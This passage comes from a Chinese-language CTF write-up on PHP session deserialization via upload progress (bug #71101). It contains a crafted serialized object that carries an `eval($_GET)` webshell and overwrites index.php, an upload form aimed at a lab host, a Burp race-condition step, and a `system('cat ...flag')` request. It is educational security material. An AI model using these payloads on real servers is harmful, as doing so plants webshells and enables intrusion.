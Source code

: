 
生成序列化值如下：

```
O:5:"Cache":4:{s:4:"data";a:3:{s:4:"name";s:7:"payload";s:7:"message";s:5:"panda";s:5:"image";s:5:"panda";}s:2:"sj";N;s:4:"path";s:42:"/Library/WebServer/Documents/ctf/index.php";s:4:"html";N;}


```

然后将 `name` 中`payload`的值改成`<?php eval($_GET[1]);?>`，如下：

```
O:5:"Cache":4:{s:4:"data";a:3:{s:4:"name";s:23:"<?php eval($\_GET\[a\]);?>";s:7:"message";s:5:"panda";s:5:"image";s:5:"panda";}s:2:"sj";N;s:4:"path";s:42:"/Library/WebServer/Documents/ctf/index.php";s:4:"html";N;}


```

再利用上文中提到的`PHP BUG #71101`，建立 `up.html` 页面，页面内容如下：

```
<form action="http://10.37.14.49/ctf/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden"  />
    <input type="file"  />
    <input type="submit" />
</form>


```

抓包，修改 `value` 的值，如下图所示：

![](https://xzfile.aliyuncs.com/media/upload/picture/20191026143120-38e1af5c-f7ba-1.png)

由于请求后，`session`会立刻被清空覆盖

![](https://xzfile.aliyuncs.com/media/upload/picture/20191026143133-40d02590-f7ba-1.png)

因此需要不断发送请求，这里可以写脚本，也可以直接利用 burp ，我偷个懒直接利用 burp ：

![](https://xzfile.aliyuncs.com/media/upload/picture/20191026143150-4b27d8d0-f7ba-1.png)

然后 index.php 的内容就会修改成以下内容：

![](https://xzfile.aliyuncs.com/media/upload/picture/20191026143204-5312300e-f7ba-1.png)

直接向`index.php`页面发送`?a=system('cat /Library/WebServer/Documents/ctf/flag');`请求即可得到 flag

![](https://xzfile.aliyuncs.com/media/upload/picture/20191026143654-001a577c-f7bb-1.png)

通过本次对 `PHP session`的梳理分析，希望让你对其有了更好的认识和理解，有问题欢迎反馈交流

[https://blog.csdn.net/m0\_37421065/article/details/78930935](https://blog.csdn.net/m0_37421065/article/details/78930935)

[https://www.php.net/manual/zh/session.configuration.php](https://www.php.net/manual/zh/session.configuration.php)
